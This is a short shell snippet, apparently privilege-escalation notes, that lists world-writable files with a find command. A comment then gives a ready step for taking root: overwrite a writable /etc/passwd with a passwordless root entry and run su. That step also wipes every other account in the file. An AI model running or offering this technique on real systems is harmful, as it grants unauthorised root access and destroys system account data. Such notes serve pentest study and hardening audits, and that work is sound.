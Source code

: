 # find all files that are world writeable, irrespective of what other permissions they have, you can do:
# what files can you edit?
# is /etc/passwd there? if so "echo root::0:0:root:/root:/bin/bash > /etc/passwd" then do su to become root
find / -perm -o+w 2>/dev/null



